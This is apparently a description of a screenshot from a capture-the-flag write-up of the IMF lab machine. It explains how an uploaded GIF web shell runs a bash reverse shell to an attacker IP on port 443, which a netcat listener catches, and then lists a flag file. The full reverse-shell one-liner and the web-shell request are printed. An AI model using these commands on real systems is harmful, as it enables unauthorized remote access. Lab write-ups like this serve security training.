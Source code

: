 ![](/assets/post/IMF/vcm.png)


### Top Left (Browser):

- **URL**: `http://192.168.1.112/imfadministrator/uploads/5a24cebeeb82.gif?cmd=bash...`
    - The file `5a24cebeeb82.gif` is used to execute a command through the `cmd` parameter in the URL.
    - The command being executed is a **reverse shell** using `bash`, which redirects input and output to IP address `192.168.1.153` on port `443`. The complete command is:

        ```bash
        bash -c "bash -i >& /dev/tcp/192.168.1.153/443 0>&1"
        ```

    - This redirects terminal output (stdin and stdout) to the TCP connection on port 443 of IP address `192.168.1.153`.

### Bottom Left (Terminal - Kali Linux):

1. **Netcat (nc) - First Failed Connection**:
    - The command `nc -nlvp 443` is set to **listen on port 443** of the attacker’s machine (Kali Linux) to receive the reverse connection.
    - **First Connection**: The first connection attempt came from `127.0.0.1`, which indicates it was likely a local test or an error. The output shown is unreadable as the shell was not properly established.

2. **Netcat (nc) - Second Successful Connection**:
    - The command `nc -nlvp 443` is executed again, this time receiving a connection from **192.168.1.112** (the vulnerable server).
    - The message `bash: cannot set terminal process group (1268)` indicates that the shell environment lacks job control, which is typical for limited shells.
    - **Executing Commands**: After the connection, the attacker executes the `ls` command to list files in the `/var/www/html/imfadministrator/uploads` directory. The output shows the following files:
        - `3e1ed582b191.jpg`
        - `5a24cebeeb82.gif` (the file used for the reverse connection)
        - **`flag5_abc123def.txt`**, which likely contains important information.

